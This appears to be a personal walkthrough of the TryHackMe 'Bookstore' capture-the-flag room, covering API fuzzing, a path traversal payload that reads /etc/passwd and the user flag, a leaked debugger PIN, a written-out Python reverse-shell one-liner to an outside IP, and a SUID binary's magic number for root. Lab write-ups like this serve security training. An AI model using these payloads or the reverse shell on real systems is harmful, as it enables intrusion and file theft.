# Bookstore CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Bookstore** CTF challenge on [TryHackMe](https://tryhackme.com/room/bookstoreoc). 
---

we see 3 open ports 22, 80 and 5000



from nmap we know about disallowed entry /api on port 5000

by going there we see api documentation



i tried to fuzz parameters for /api/v2 but doesnt seem to work

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://$IP:5000/api/v2/resources/books?FUZZ=test
```

then i tried to fuzz the `/api/v1` and it worked, we found new parameter `show`

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt -u http://$IP:5000/api/v1/resources/books?FUZZ=test
```



if we simply check the `http://10.10.243.74:5000/api/v1/resources/books?show=test` we got some NameError: filename not defined



i also tested path traversal to /etc/passwd by going to `http://10.10.243.74:5000/api/v1/resources/books?show=../../../../../etc/passwd` and it works



if we take a look at this file we see shell users: root and sid

we can even grab user flag right now by going to `http://10.10.243.74:5000/api/v1/resources/books?show=../../../../../home/sid/user.txt` but we still need to gain shell access 



by enumerating the port 80 with ferox we found login page 



on the login page there is a comment

```
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
```



now we know about some debugger pin in .bash_history file in sid home folder



using ferox agian this time on port 5000 we found /console where we need to input pin !!





now we have access to python console so its probably time for reverse shell



we can execute to spawn revers shell as sid:

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.91.59",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

in sid home folder we see SUID script try-harder







we can transfer the file and use ghidra to decompile it to C



we see 

```
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
```

i asked chatGPT to write program in python that will calculate the magic number 



now we have root access and root flag !!



# MACHINE PWNED
